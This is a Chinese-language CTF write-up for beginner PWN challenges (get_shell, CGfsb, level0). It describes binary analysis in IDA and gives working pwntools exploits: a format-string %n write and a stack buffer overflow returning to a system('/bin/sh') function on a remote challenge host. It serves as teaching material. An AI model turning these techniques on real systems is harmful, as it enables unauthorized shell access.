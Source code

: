 ### PWN新手练习区

#### get_shell

- 根据提示，可以直接get_shell，故直接nc远程连接题目地址，拿到flag。

  ![](images/get_shell.png)

#### CGfsb

- 查看文件类型。这是一个32bit 小端序的可执行文件

  ![](images/CGfsb1.png)

- 使用 `IDA Pro` (32位)加载该文件函数等信息。

  - 查看main()函数，按F5进行反汇编。

    ![](images/CGfsb2.png)

  - printf()存在格式化字符串漏洞。

  - 找到pwnme变量的地址，要利用格式化字符串漏洞修改变量pwnme的值为8，才能输出flag的内容。

    ![](images/CGfsb3.png)

    

- 编写exp

  ```python
  from pwn import *
  sh = remote('220.249.52.133','54394')
  sh.recv()
  sh.sendline('hacker')
  sh.recv()
  payload = p32(0x804a068) +'aaaa' +'%10$n'
  sh.sendline(payload)
  sh.interactive()
  
  ```

  - %n:当前已打印字符的个数（4个字节）。
  - %<正整数n>\$：指定占位符对应第n个参数，例如：%12$x，此处%x对应第12个参数。

- 执行exp，得到flag。

#### level0

- 使用nc远程连接题目地址。

  ![](images/level0-2.png)

- 查看文件类型。这是一个64bit 小端序的可执行文件

  ![](images/level0-1.png)

- 使用 `IDA Pro` (64位)加载该文件函数等信息。

  - 查看main()函数，按F5进行反汇编

    ![](images/level0-3.png)

  - 查看`vulnerable_function()`。read()函数允许输入0x200个字符而buf只有0x80，所以需要使用输入进行缓冲区溢出的利用。

    ![](images/level0-4.png)

  - 函数窗口处发现了一个`callsystem()`，调用了system函数，并且参数是`bin/sh`，所以尝试利用缓冲区溢出执行`callsystem()`函数获得shell权限

    ![](images/level0-5.png)

  - `callsystem()`函数的起始地址为0x400596。

    ![](images/level0-6.png)

- 编写exp

  ```python
  from pwn import *
  sh=remote('220.249.52.133','55451')
  sh.recv()
  callsystem=0x400596
  payload=0x88*'a'+p64(callsystem)
  sh.sendline(payload)
  sh.interactive()
  ```

- 执行exp，得到flag。

  ![](images/level0-7.png)